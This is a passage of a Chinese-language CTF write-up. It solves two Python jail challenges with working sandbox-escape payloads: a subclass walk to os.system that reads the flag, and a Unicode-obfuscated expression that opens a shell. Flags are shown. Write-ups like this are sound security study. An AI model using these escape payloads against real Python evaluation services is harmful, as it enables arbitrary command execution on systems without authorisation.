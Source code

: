 `{"__builtins__": {}}` 會移除所有內建函數，試著從能執行系統命令的類別下手，利用 `''.__class__.__base__.__subclasses__()` 發現有個 `<class 'os._wrap_close'>` 能利用一下，就搓出了以下的 payload 成功得到 flag

```shell!
nc 172.31.3.2 8002
> ''.__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('cat flag*')
TSC{just_a_classic_nobuiltins_pyjail_for_baby}
```

flag: `TSC{just_a_classic_nobuiltins_pyjail_for_baby}`

### calc

參考了 [Pyjail CheatSheet 的 Unicode Bypass](https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass) 自己修改蠻久一下，就成功造出一個 shell 了

payload: `(𝘥:=()._＿𝘥𝘰𝘤＿_,𝘥:=()._＿𝘥𝘪𝘳＿_().__𝘤𝘭𝘢𝘴𝘴__(𝘥),𝘴:=𝘥.𝘱𝘰𝘱(19),𝘥._＿𝘤𝘭𝘢𝘴𝘴＿_(()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_).𝘱𝘰𝘱(1)._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_().𝘱𝘰𝘱(121).𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(𝘥.𝘱𝘰𝘱(33)+𝘴).𝘴𝘺𝘴𝘵𝘦𝘮(𝘴+𝘥.𝘱𝘰𝘱(54)))`

P.S. 不知道為什麼這坨如果一次複製直接貼上有些字會變成 (U+FFFD) ，但如果分批複製就不會 w

flag: `TSC{PEP-3131_is_a_friendly_PEP_for_pyjai1er_nhsdcuhq6}`

